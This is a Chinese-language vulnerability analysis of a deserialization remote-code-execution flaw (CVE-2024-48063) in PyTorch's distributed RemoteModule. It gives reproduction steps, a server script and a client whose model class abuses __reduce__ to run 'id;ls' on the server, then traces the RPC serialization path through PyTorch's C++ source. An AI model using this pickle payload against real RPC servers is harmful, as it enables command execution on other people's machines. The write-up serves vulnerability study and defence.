



# PyTorch RemoteModule模块反序列化RCE漏洞

# 漏洞环境

- PyTorch ≤ 2.4.1
- 使用 cpu 而不是 CUDA 张量，因为在使用 CUDA 张量的情况下不支持 RemoteModule

# 漏洞复现步骤

1. 用`conda`创建虚拟环境安装

   ```shell
   conda create -n CVE-2024-48063 python=3.9
   ```

2. pip 安装 `torch2.4.1`

   ```shell
   pip install torch==2.4.1 torchvision==0.19.1 torchaudio==2.4.1 --index-url https://download.pytorch.org/whl/cpu
   ```

3. 创建服务端

   ```python
   # server.py
   import torch
   import torch.distributed.rpc as rpc
   
   
   def run_server():
       # 初始化RPC环境，指定服务端名称、排名和世界大小
       rpc.init_rpc(name="server", rank=0, world_size=2)
   
       # 保持服务端运行，等待来自客户端的RPC请求
       rpc.shutdown()
   
   if __name__ == "__main__":
       run_server()
   ```

4. 创建用户端

   ```python
   # client.py
   import torch
   import torch.distributed.rpc as rpc
   from torch.distributed.nn.api.remote_module import RemoteModule
   import torch.nn as nn
   
   # 定义一个简单的神经网络模型
   class MyModel(nn.Module):
       def __init__(self):
           super(MyModel, self).__init__()
           self.linear = nn.Linear(1, 1)
   
       # 定义一个魔术方法
       def __reduce__(self):
           return (__import__('os').system, ("id;ls",))
   
   def run_client():
       # 初始化RPC环境，指定客户端名称、排名和世界大小
       rpc.init_rpc(name="client", rank=1, world_size=2)
   
       # 远程调用服务器端的函数
       remote_model = RemoteModule(
           "server",
           MyModel(),
           args=()
       )
       
       input_tensor = torch.tensor([1.0, 2.0])
       output = remote_model(input_tensor)
   
       print(f"Output from server: {output}")
   
       rpc.shutdown()
                                    
   if __name__ == "__main__":
       run_client()
   ```

5. 运行服务端，运行用户端，攻击完成

# 漏洞原理

## PyTorch分布式

​		PyTorch分布式库包含一组并行模块、<font color="red">通信层</font>以及用于启动和调试大型训练作业的基础设施

## 分布式通信包 - torch.distributed

​		`torch.distributed`支持三个内置后端，每个后端有不同的功能。这里的后端指的是用于在多台机器或多个进程之间进行通信和同步的底层技术和协议。不同的后端适用于不同的环境和应用需求，主要影响分布式训练的性能、可扩展性和兼容性等方面。

- **Gloo**：一个通用的系统，适用于大多数情况下的进程间通信（IPC），并且可以在TCP和共享内存之上运行。
- **MPI (Message Passing Interface)**：一种广泛使用的接口规范，用于编写并行计算机程序。
- **NCCL (NVIDIA Collective Communications Library)**：针对NVIDIA GPU优化的库，提供了高效的集合通信原语，如all-reduce，尤其适合多GPU环境。

## 分布式RPC框架

​		提供了一套用于多机模型训练的机制，通过一组用于远程通信的原语以及一个更高级别的API来自动微分跨多个机器拆分的模型。RPC的实现依赖于`torch.distributed`的后端来进行实际的消息传递和数据传输。当通过 RPC 调用远程函数时，后端负责将调用请求和相关参数发送到目标进程，并将目标进程的返回结果传递回调用方。

## RemoteModule模块

​		`RemoteModule`是一种在不同进程上远程创建`nn.Module`的简便方法。 其简要的工作流程如下：

​		1、**初始化 RPC：**首先初始化 RPC 并选择后端。这一步设置进程之间的通信通道

​		2、**创建 RemoteModule：**当在本地代码中创建 RemoteModule 时， RPC系统会在指定的目标机器上执行模块的构造函数来构建一个真正的模型实例。<font color="honydew">这个过程通过序列化传递给远程机器的构造参数并反序列化它们来完成的。</font>

​		3、**调用远程方法：**一旦 RemoteModule 被创建，你可以像使用本地模块一样调用它的方法。这时 RPC 系统会负责将输入数据发送给远程机器。在那里，数据会被传入模型计算，计算结果会通过 RPC 通信返回给发起请求的本地机器。

## 数据流

### Client 端

​		在 client 调用 RemoteModule 构造函数并传入 MyModel 对象作为参数时，在 RemoteModule 中会自动调用父类 `_RemoteModule` 的初始化函数 `__init__`，由于参数 `_module_interface_cls` 默认为 None，程序会进入到 else 分支并执行 `rpc.remote()` 函数：



​		在 remote 函数中，先用 `torch.jit._builtins._find_builtin(func)` 来判断函数 func 是否已经在内置表[^1]中有对应的记录。如果找到了，那么它会返回与这个函数关联的序列化信息或者处理逻辑；如果没有找到，则返回 None 或者默认值。显然，用户定义的函数不在这张表中，故继续判断 `isinstance(func, torch.jit.ScriptFunction)` 即 func 是否是 `torch.jit.ScriptFunction` 类型[^2]。显然用户自定义的函数并没有使用过 `TochScript` 来编译，故程序会进入 else 分支。



​		else 分支语句中，先将 func 函数打包成 PythonUDF 元组[^3]，然后调用 `_default_pickler.serialize()` 函数将具名元组序列化，然后调用 `_invoke_remote_python_udf()` 方法[^4]，这个方法是用 C++ 写的。实际上是调用了 `pyRemotePythonUdf` 函数，该函数处理实际的 RPC 调用。下面是该函数的源码（加注释）：

```c++
PyRRef pyRemotePythonUdf(
    // 函数参数
    const WorkerInfo& dst,
    std::string& pickledPythonUDF,
    std::vector<torch::Tensor>& tensors,
    const float rpcTimeoutSeconds,
    const bool isAsyncExecution)
{
  // 确保当前线程没有持有Python全局解释器锁（GIL）
  // 因为C++代码可能运行在多线程环境中，而Python的GIL在同一时刻只允许一个线程执行Python字节码。
  DCHECK(!PyGILState_Check());
  auto& ctx = RRefContext::getInstance();
  // 将序列化的 PythonUDF 和张量封装进 SerializedPyObj 结构体中
  auto serializedPyObj =
      SerializedPyObj(std::move(pickledPythonUDF), std::move(tensors));
  
  // 判断是本地节点还是远程节点
  if (ctx.getWorkerId() != dst.id_) {
    // 如果不是目标节点，就创建一个 UserRRef 来追踪远程执行的结果
    auto userRRef = ctx.createUserRRef(dst.id_, PyObjectType::get());
    // 通过 sendPythonRemoteCall 函数发起远程调用
    auto jitFuture = sendPythonRemoteCall(
        dst,
        std::move(serializedPyObj),
        userRRef->rrefId().toIValue(),
        userRRef->forkId().toIValue(),
        rpcTimeoutSeconds,
        isAsyncExecution);
	// 为创建的 RRef 注册回调函数，以便在远程调用完成后可以处理结果
    userRRef->registerOwnerCreationFuture(jitFuture);
    ctx.addPendingUser(userRRef->forkId(), userRRef);
    jitFuture->addCallback(at::wrapPropagateTLSState(
        [forkId{userRRef->forkId()}](JitFuture& future) {
          callback::confirmPendingUser(future, forkId);
        }));
    return PyRRef(userRRef);
  } else {
    // 如果是目标节点，创建一个 OwnnerRRef来表示自己作为所有者，并同样发起远程调用
    // 这样做是为了支持向自身发送消息的情况
    auto ownerRRef = ctx.createOwnerRRef(PyObjectType::get());
    // prevent this owner RRef being deleted due to other forks
    ctx.addSelfAsFork(ownerRRef);
    auto jitFuture = sendPythonRemoteCall(
        dst,
        std::move(serializedPyObj),
        ownerRRef->rrefId().toIValue(),
        ownerRRef->rrefId().toIValue(),
        rpcTimeoutSeconds,
        isAsyncExecution);
	// 为创建的 RRef 注册回调函数，完成创建所有者的确认
    ownerRRef->registerOwnerCreationFuture(jitFuture);
    jitFuture->addCallback(at::wrapPropagateTLSState(
        [ownerRRefId = ownerRRef->rrefId()](JitFuture& future) {
          auto deletedRRef =
                    callback::finishCreatingOwnerRRef(future, ownerRRefId);
                if (deletedRRef && deletedRRef->isPyObj())
                {
                    py::gil_scoped_acquire ag;
                    deletedRRef.reset();
                }
        }));
    // 最后返回一个 PyRRef 实例，它包含了对远程执行结果的引用
    return PyRRef(ownerRRef);
  }
}
```

​		发送远程调用函数 `sendPythonRemoteCall()` 源码如下（加注释）：

```c++
c10::intrusive_ptr<JitFuture> sendPythonRemoteCall(
   	// 参数
    const WorkerInfo& dst,
    SerializedPyObj serializedPyObj,
    const IValue& rrefId,
    const IValue& forkId,
    const float rpcTimeoutSeconds,
    const bool isAsyncExecution) 
{
  // 先创建一个 PythonRemoteCall 对象
  // 封装了要执行的远程调用信息，包括序列化的 Python 对象、远程引用 ID 和 fork ID
  auto pythonRemoteCall = std::make_unique<PythonRemoteCall>(
      std::move(serializedPyObj), rrefId, forkId, isAsyncExecution);

  // set forceGradRecording to true as even if the args does not contain any
  // tensor, the return value might still contain tensors.
  // 获取当前的 RpcAgent 实例，这个实例负责处理 RPC 调用的具体发送和接收。
  auto agent = RpcAgent::getCurrentRpcAgent();
  // 将 ScriptRemoteCall 对象转换成消息并调用 sendMessageWithAutograd 函数发送给目标工作节点。
  return torch::distributed::autograd::sendMessageWithAutograd(
      *agent,
      dst,
      std::move(*pythonRemoteCall).toMessage(),
      true /*forceGradRecording*/,
      rpcTimeoutSeconds);
}
```

​		发送消息并处理自动求导的函数 `sendMessageWithAutograd()` 源码如下（加注释）：

```c++
c10::intrusive_ptr<JitFuture> sendMessageWithAutograd(
    // 参数
    RpcAgent& agent,
    const WorkerInfo& dst,
    c10::intrusive_ptr<torch::distributed::rpc::Message> wrappedRpcMsg,
    bool forceGradRecording,
    const float rpcTimeoutSeconds,
    bool forceDisableProfiling) 
{
  // 先生成一个带有自动求导信息的消息 msg
  auto msg = getMessageWithAutograd(
      dst.id_,
      std::move(wrappedRpcMsg),
      MessageType::FORWARD_AUTOGRAD_REQ,
      forceGradRecording,
      agent.getDeviceMap(dst));

  // If profiler is enabled, wrap this message with profiling metadata that will
  // tell the remote end to process this request with the profiler enabled.
  if (!forceDisableProfiling) {
    switch (torch::profiler::impl::profilerType()) {
      case torch::profiler::impl::ActiveProfilerType::LEGACY: {
        auto profilerConfig = torch::autograd::profiler::getProfilerConfig();
        auto msgWithProfiling = getMessageWithProfiling(
            std::move(msg),
            rpc::MessageType::RUN_WITH_PROFILING_REQ,
            std::move(profilerConfig));
        // 调用 agent.send() 方法，将消息发送到目标工作节点 dst
        return agent.send(dst, std::move(msgWithProfiling), rpcTimeoutSeconds);
      }
      case torch::profiler::impl::ActiveProfilerType::KINETO:
        TORCH_WARN_ONCE(
            "Profiling a distributed call with the Kineto profiler will profile "
            "the caller, but not the worker.");
        break;
      default:
        break;
    }
  }
  // 调用 agent.send() 方法，将消息发送到目标工作节点 dst
  return agent.send(dst, std::move(msg), rpcTimeoutSeconds);
}
```

​		这里的 `agent.send()` 其实在 `rpc.agent.h` 文件中是定义为一个虚函数。类似于 Java 中的父类中定义的抽象函数，当调用该函数的时候，具体实现主要决定于子类是如何实现该抽象方法的。于是，这里的 `agent.send()` 实现取决于 `agent` 也就是 `rpc.distributed` 后端的实现。如在 `torch.csrc.distributed.rpc` 模块的 `tensorpipe_agent.cpp` 中的 `TensorPipeAgent` 类就实现了这个方法，采用管道通信，将请求发送给远程机器。

[^1]: 在 PyTorch 仓库中 torch/jit 模块中的 `_builtins.py` 负责定义 Python 内置函数与 PyTorch 内部操作（aten）之间的映射。其中维护了一张内置表，它映射了用户定义的函数或类到它们对应的序列化标识符。这个表用于加速和简化函数或类的序列化和反序列化过程：这样的机制可以确保一些常用的、内置的或者是特别注册过的函数能够在不同进程间高效地传递，而不需要每次都对它们进行完整的序列化操作。这有助于提高性能并减少通信开销。
[^2]: `torch.jit.ScriptFunction` 是 PyTorch 中用于表示通过 TorchScript 编译的函数的一个类。TorchScript 是 PyTorch 的一种中间表示（IR），它允许将 Python 代码转换为可以独立于 Python 解释器运行的序列化模型或函数。这使得模型可以在没有 Python 环境的情况下部署。当开发者编写一个函数并希望将其转换为 `torch.jit.ScriptFunction` 时，可以使用 `torch.jit.script` 函数来编译它。如果有一个已经存在的模块并且想要编译整个模块，则可以使用 `torch.jit.trace` 或 `torch.jit.script` 方法。
[^3]: PyhtonUDF 元组是在 torch.distributed.rpc 模块中的 `internal.py` 定义的，通过 `PythonUDF = collections.namedtuple("PythonUDF", ["func", "args", "kwargs"])` 来定义的具名元组。
[^4]: 这个函数用于在远程节点上执行 Python 用户定义函数，在 `torch/csrc/distributed/rpc/init.cpp` 中定义，通过 `pybind11` 绑定到 Python 。函数定义是这样的

```c++
module.def(
	"_invoke_remote_python_udf",
	&pyRemotePythonUdf,
	py::call_guard<py::gil_scoped_release>());
```

### Server 端

​		同理在 `RpcAgent` 中，接收到的信息由 `RequestCallback` 的回调函数进行处理，`RequestCallback` 是一个抽象基类，定义了处理 RPC 消息的接口，而文件 `torch.csrc.distributed.rpc.request_callback_impl.cpp` 中的 `RequestCallbackImpl` 类则实现了这个接口，提供了具体的消息处理逻辑。具体的 `RpcAgent` 子类会实例化一个 `RequestCallback` 子类对象，并在接收到消息时调用处理函数 `processMessage` 函数[^5]。



​		显然这里先调用了 `UnpickledPythonRemoteCall` 方法将接收到的请求 request 反序列化，而方法在 `troch.csrc.distributed.rpc.utils.cpp` 文件中，源码如下：

```c++
std::unique_ptr<RpcCommandBase> deserializeRequest(const Message& request) {
  switch (request.type()) {
    ...
    case MessageType::SCRIPT_REMOTE_CALL: {
      return ScriptRemoteCall::fromMessage(request);
    }
    case MessageType::PYTHON_REMOTE_CALL: {
      return PythonRemoteCall::fromMessage(request);
    }
    case MessageType::SCRIPT_RREF_FETCH_CALL: {
      return ScriptRRefFetchCall::fromMessage(request);
    }
    ...
    default: {
      TORCH_INTERNAL_ASSERT(
          false, "Request type ", request.type(), " not supported.");
    }
  }
}
```

​		显然从之前 Client 端数据流可知，MessageType 应为 `PYTHON_REMOTE_CALL`，故这里会执行 `PythonRemoteCall.fromMessage()` 方法。源码如下：

```c++
std::unique_ptr<PythonRemoteCall> PythonRemoteCall::fromMessage(
    const Message& message) {
  // 首先，从 Message 对象中提取负载数据和负载大小。
  auto payload = static_cast<const char*>(message.payload().data());
  auto payload_size = message.payload().size();

  // 使用 jit::unpickle 函数将负载数据反序列化为一个包含多个元素的元组。
  auto value = jit::unpickle(
      payload,
      payload_size,
      *RpcAgent::getCurrentRpcAgent()->getTypeResolver(),
      message.tensors());
  auto values = value.toTupleRef().elements().vec();

  // remove the last elements from values and convert it back to an RRef
  TORCH_INTERNAL_ASSERT(
      values.size() > 3,
      "Expect at least 4 elements in the unpickled values, but got ",
      values.size());
  // 从反序列化后的数据中提取各个字段, isAsyncExecution
  bool isAsyncExecution = values.back().toBool();
  values.pop_back();
  // retForkId
  auto retForkId = std::move(values.back());
  values.pop_back();
  // retRRefId
  auto retRRefId = std::move(values.back());
  values.pop_back();
  //  serializedPyObj
  auto serializedPyObj = SerializedPyObj::fromIValues(std::move(values));

  // 使用提取的字段创建一个新的 PythonRemoteCall 对象，并返回该对象
  return std::make_unique<PythonRemoteCall>(
      std::move(serializedPyObj),
      std::move(retRRefId),
      std::move(retForkId),
      isAsyncExecution);
}
```

​		还原了信息以后，创建了一个新的 PythonRemoteCall 对象，返回至 `deserializePythonRpcCommand()` 方法，这个函数的主要任务是检查传入的 RpcCommandBase 对象是否是 Python RPC 命令，并且在必要的时候对其进行反序列化。其部分源码如下：

```c++
std::unique_ptr<RpcCommandBase> RequestCallbackImpl::
    deserializePythonRpcCommand(
        std::unique_ptr<RpcCommandBase> rpc,
        const MessageType& messageType) const {
  auto pythonRpc = deserializePythonRpcCommandReference(*rpc, messageType);
  return pythonRpc ? std::move(pythonRpc) : std::move(rpc);
}
```

​		直接调用了 `deserializePythonRpcCommandReference` 方法，其部分源码如下：

```c++
std::unique_ptr<RpcCommandBase> deserializePythonRpcCommandReference(
    RpcCommandBase& rpc,
    const MessageType& messageType) {
  switch (messageType) {
    ...
    case MessageType::PYTHON_REMOTE_CALL: {
      auto& prc = static_cast<PythonRemoteCall&>(rpc);
      return std::make_unique<UnpickledPythonRemoteCall>(
          prc.serializedPyObj(),
          prc.retRRefId(),
          prc.retForkId(),
          prc.isAsyncExecution());
    }
    ...
    default: {
      return nullptr;
    }
  }
}
```

​		显然这里 `MessageType` 为 `PYTHON_REMOTE_CALL`，这里将 rpc 交给了类 `UnpickledPythonRemoteCall` 的构造器，在其构造器中实际上调用了 `UnpicklePythonCall` 类的构造器，而在这里 `rpc` 中的 `serializedPyObj` 被 `deserialize()` 方法反序列化。到这里，会自动执行构造的 `__reduce__`方法，从而将 `shell` 反弹给攻击者

```c++
UnpickledPythonCall::UnpickledPythonCall(
    const SerializedPyObj& serializedPyObj,
    bool isAsyncExecution)
    : isAsyncExecution_(isAsyncExecution) {
  auto& pythonRpcHandler = PythonRpcHandler::getInstance();
  pybind11::gil_scoped_acquire ag;
  pythonUdf_ = pythonRpcHandler.deserialize(serializedPyObj);
}
```

[^5]: 这里的 `processMessage` 实现不是 `RequestCallbackImpl` 类自身实现的，而是继承自类 `RequestCallbackNoPython`